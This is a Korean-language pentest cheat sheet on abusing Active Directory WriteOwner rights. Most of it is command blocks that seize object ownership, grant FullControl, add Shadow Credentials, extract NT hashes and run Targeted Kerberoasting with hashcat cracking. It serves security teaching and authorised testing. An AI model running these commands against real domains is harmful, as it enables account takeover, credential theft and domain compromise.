


# WriteOwner

* 대상의 Owner (소유권자) 를 바꿔 대상 객체를 소유할 수 있게 된다. 객체의 소유권을 갖게 되면 WriteDACL 권한을 이용해 공격자 자신에게 대상을 상대로 한 특정한 권한을 부여할 수 있다. 이 권한을 바탕으로 추가 공격을 실행해 대상을 장악한다.
* 공식 액티브 디렉토리 권한
* 높은 권한의 유저 그룹이나 머신 계정 (예 - 도메인 컨트롤러)의 소유권 계정을 함부로 바꾸는 것은 위험하기에 실무에서 쓰이기에는 어려운 공격 방식이다.


<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

### 악용 - 그룹

```
# OwnerEdit 
owneredit.py -action write -new-owner attacker -target victimGroup domain.com/user:pass 
owneredit.py -action write -new-owner abuse -target 'domain admins' choi.local/abuse:'Password123!'

# WriteMember - AddMember 
dacledit.py -action write -rights WriteMembers -principal attacker -target-dn target choi.local/user:pass
dacledit.py -action write -rights WriteMembers -principal abuse -target 'domain admins' choi.local/abuse:'Password123!'

# 이후 AddMember 등을 활용 
```

### 악용 - 유저

* 소유권 변경 -> WriteDACL 로 FullControl 권한 부여 -> FullControl 을 이용해 ShadowCredentials, Targeted Kerberoasting 등의 공격 실행

```
# OwnerEdit 
owneredit.py -action write -new-owner attacker -target victimGroup domain.com/user:pass 

# WriteDACL으로 FullControl DACL 부여 
dacledit.py -action write -rights FullControl -principal attacker -target targetUser domain.com/user:pass 

# FullControl 기반으로한 Shadow Credentials, Targeted Kerberoasting, 등. 

# ShadowCredentials 공격 
pywhisker.py -d domain.local -u controlledAccount -p pass --target targetAccount --action add

python3 gettgtpkinit.py -cert-pfx <pfx> -pfx-pass <pass> domain.com/target target.ccache
export KRB5CCNAME=target.ccache
python3 getnthash.py -key <AS-REP Encryption key> domain.com/target

# 공격자로서 추가했던 DeviceID만 삭제 
python3 pywhisker.py -d choi.local -u abuse -p 'Password123!' --target victim --action remove -D <DeviceID>

# 확인 
python3 pywhisker.py -d choi.local -u abuse -p 'Password123!' --target victim --action list

--- 

# Targeted Kerberoasting 
git clone https://github.com/ShutdownRepo/targetedKerberoast.git
python3 targetedKerberoast.py -v -d domain.com -u attacker -p pass --request-user targetUser --only-abuse
hashcat -a 0 -m 13100 <hash> <wordlist> 
```

### 악용 - 컴퓨터

* 소유권 변경 -> WriteDACL 로 FullControl 권한 부여 -> RBCD, Shadow Credentials, LAPS 등의 공격 실행

```
# OwnerEdit 
owneredit.py -action write -new-owner attacker -target victimGroup domain.com/user:pass 

# WriteDACL으로 FullControl DACL 부여 
dacledit.py -action write -rights FullControl -principal attacker -target targetUser domain.com/user:pass 

# FullControl 기반으로한 RBCD, Shadow Credentials, LAPS 등 
```

### 악용 - 도메인

* 소유권 변경 -> WriteDACL 로 FullControl 권한 부여 -> DCSync


